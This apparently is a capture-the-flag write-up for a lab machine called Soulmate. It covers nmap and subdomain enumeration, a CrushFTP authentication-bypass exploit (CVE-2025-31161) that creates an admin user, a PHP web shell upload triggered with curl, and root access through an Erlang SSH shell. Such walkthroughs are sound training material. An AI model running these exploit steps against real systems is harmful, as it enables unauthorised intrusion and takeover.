


## Ennumeration

```bash
# Nmap 7.94SVN scan initiated Wed Sep 17 12:31:46 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.11.86
Warning: 10.10.11.86 giving up on port because retransmission cap hit (6).
Nmap scan report for soulmate.htb (10.10.11.86)
Host is up (0.13s latency).
Not shown: 956 closed tcp ports (conn-refused), 42 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Soulmate - Find Your Perfect Match
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

now i can see port http `80` .


> - Lets try brute force `Subdomain` :
```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4                      ✔ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.86
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.soulmate.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 4
________________________________________________

ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 633ms]
```

> - So, Check what is `ftp.soulmate.htb` :


> - you can search in source code for check version CrushFTP .
> - After that i found a [CVE](https://github.com/Immersive-Labs-Sec/CVE-2025-31161/tree/main)
> - Lets try this :

```py
 python3 cve.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test2 --password admin1234                                 ✔  6s  
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: test2
   [*] Password: admin1234.
```

> - Now i can Login this WebApp .
> - After Searching , i found a user name `ben` 7 i can changing password 


> - So, let login with `ben`

## Exploitation

> - Now i can show folder name `WebProd` & i wont to upload a shell.php
> - But i have a prblm !!!!

> - if click to shell.php , shell is download dont open in browser
> - Solutions is type this command & open port netcat :
```bash
curl http://ftp.soulmate.htb/shell.php
```
> - After that i connect a server web as `www-data`
> - So What Next !!
> - Now i try `Linpeas` For Privilege Escalation
> - I found a file have a Password Ben


> - And i have a port `2222` .
## Privilege Escalation
- After login with SSH type this command
```bash
ssh ben@soulmate.htb                                                                                                                         ✔  1m 57s  
ben@soulmate.htb's password: 
bash-5.1$ ssh ben@soulmate.htb -p 2222
ssh: Could not resolve hostname soulmate.htb: Temporary failure in name resolution
bash-5.1$ ssh ben@127.0.0.1 -p 2222
The authenticity of host '[127.0.0.1]:2222 ([127.0.0.1]:2222)' can't bcat /root/root.txte established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

(ssh_runner@soulmate)1> 
```

> - WTF, What is this shell !!!
> - Afetr Searching i found this is : `Erlang shell`
> - And i have this command for `Erlang shell` like `id` in shell :
```bash
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```
- Ohhh , im `root` Great !!
